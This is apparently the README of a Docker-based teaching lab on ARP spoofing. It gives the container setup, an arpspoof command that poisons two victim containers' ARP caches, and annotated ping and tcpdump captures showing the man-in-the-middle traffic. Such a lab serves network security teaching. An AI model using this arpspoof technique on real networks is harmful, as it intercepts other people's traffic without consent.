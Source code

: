 SOURCE: https://gitlab.com/BrunoVernay/lab-arpspoof/-/tree/master/Lab1-ArpSpoofing
# ARP Spoofing Lab in Docker

We create:
- Two "victim" boxes.
- One "attacker" ArpSpoofer.
- An optional "observer" TcpDumper that can be attached to different network interface.

Inspired from https://dockersec.blogspot.com/2017/01/arp-spoofing-docker-containers_26.html 


## Build
  
```
sudo docker build --tag=arpspoofer --build-arg http_proxy=$http_proxy --build-arg https_proxy=https_proxy  arpspoofer
sudo docker build --tag=tcpdumper  --build-arg http_proxy=$http_proxy --build-arg https_proxy=$https_proxy tcpdumper
```


## Run
 
Launch 4 terminals:
```
gnome-terminal --title='Box1' -- sudo docker run -it --rm --name box1 busybox
gnome-terminal --title='Box2' -- sudo docker run -it --rm --name box2 busybox
gnome-terminal --title='ArpSpoofer' -- sudo docker run -it --rm --name arpspoofer arpspoofer
gnome-terminal --title='TcpDumper'  -- sudo docker run -it --rm  --net=container:arpspoofer --name tcpdumper tcpdumper
```

1. Check the IPs in Box1 and 2 `ip addr` 
1. Watch the ARP table on Box1 `watch ip neigh`
1. Start pinging Box1 from Box2 `ping 172.17.0.x` (replace with Box1 IP)

Usually we would spoof the gateway, but here we spoof both hosts. Since they are on the same LAN, they do not need the Gateway to communicate. (Replace IP with Box1 and 2!)
`/usr/sbin/arpspoof -r -i eth0 -t 172.17.0.x 172.17.0.y`

You should see the traffic in TcpDumper (note that the container can be attached to other boxe's network). You can also capture traffic from within the host on bridge `Docker0` with Wireshark. 

### SELinux and tcpdump

TcpDump might not work with SELinux enabled. But: TcpDump is optional (you can use WireShark) and you can either temporarily disble SELinux or add an exception `sudo semodule -X 300 -i selinux/my-tcpdump.pp` (you can remove it after with `-r` instead of `-i`)


## Observations
  
Keep in mind that it is a very simple attack. We didn't do anything to be stealthy. 

The capture file is `result.pcapng`. Capture was done on the host's bridge `Docker0`.

- Box1 has 172.17.0.2 02:42:ac:11:00:02
- Box2 has 172.17.0.3 02:42:ac:11:00:03
- ArpSpoofer has 172.17.0.4 02:42:ac:11:00:04
- TcpDump has the same as ArpSpoofer 

### ping side
 
No errors. The only hint is the `ttl` decreasing from 64 to 63. 
```
64 bytes from 172.17.0.2: seq=12 ttl=64 time=0.147 ms
64 bytes from 172.17.0.2: seq=13 ttl=64 time=0.149 ms
64 bytes from 172.17.0.2: seq=14 ttl=63 time=0.516 ms
64 bytes from 172.17.0.2: seq=15 ttl=63 time=0.439 ms
...
64 bytes from 172.17.0.2: seq=129 ttl=64 time=0.153 ms
^C
--- 172.17.0.2 ping statistics ---
130 packets transmitted, 130 packets received, 0% packet loss
round-trip min/avg/max = 0.058/0.207/0.859 ms

```

### Tcpdump side

We can see the "nefarious" ARP messages:
```
10:41:37.882841 ARP, Reply 172.17.0.2 is-at 02:42:ac:11:00:04, length 28
10:41:37.883033 ARP, Reply 172.17.0.3 is-at 02:42:ac:11:00:04, length 28 
```

Here we see the ICMP messages:
```
10:41:38.095909 IP 172.17.0.3 > 172.17.0.2: ICMP echo request, id 2304, seq 14, length 64
10:41:38.095962 IP 172.17.0.4 > 172.17.0.3: ICMP redirect 172.17.0.2 to host 172.17.0.2, length 92
10:41:38.095970 IP 172.17.0.3 > 172.17.0.2: ICMP echo request, id 2304, seq 14, length 64
10:41:38.096039 IP 172.17.0.2 > 172.17.0.3: ICMP echo reply, id 2304, seq 14, length 64
10:41:38.096051 IP 172.17.0.4 > 172.17.0.2: ICMP redirect 172.17.0.3 to host 172.17.0.3, length 92
10:41:38.096055 IP 172.17.0.2 > 172.17.0.3: ICMP echo reply, id 2304, seq 14, length 64
```
We can see:
- Box2 request goes to ArpSpoofer
 - ArpSpoofer sends an ICMP redirect, telling Box2 to request Box1. 
 - ArpSpoofer forwards the packet to Box1 (decreases `ttl`)
- Box1 reply goes to ArpSpoofer
 - ArpSpoofer sends an ICMP redirect, telling Box1 to reply to Box2
 - ArpSpoofer forwards the packet to Box2 (decreases `ttl`)

You can select the same sequence in Wireshark with `icmp.seq == 14`. Wireshark interpretation is a bit off.

Box1 receives the ICMP redirect after it already has sent the reply. Looks like it is then ignored. 

## Cleanup

By default Docker will keep images and containers.
Here are some docker commands if you are not familiar with them:
- `sudo docker <image|container> ls -a` will show images or containers
- `sudo docker <image|container> prune` will remove unused images or containers.

Note that the `--rm` option in the run, tells docker to remove the container after use. It is normal if there are no container after running the lab.

Do not forget to eventually `sudo setenforce Enforcing` or remove the SELinux module if you installed it.

## Todo

- Use `export IP_BOX1=$(sudo docker inspect --format '{{.NetworkSettings.IPAddress}}' box1)` to get IP addresses, then use `sudo docker exec box2 sh -c "ping -c3 $IP_BOX1"`
- Tried, does not set the Terminal title, hence is useless:  _Use hostnames `... run -h box1 ...` (might simplify terminal titles, and if there is a DNS would be even better)_


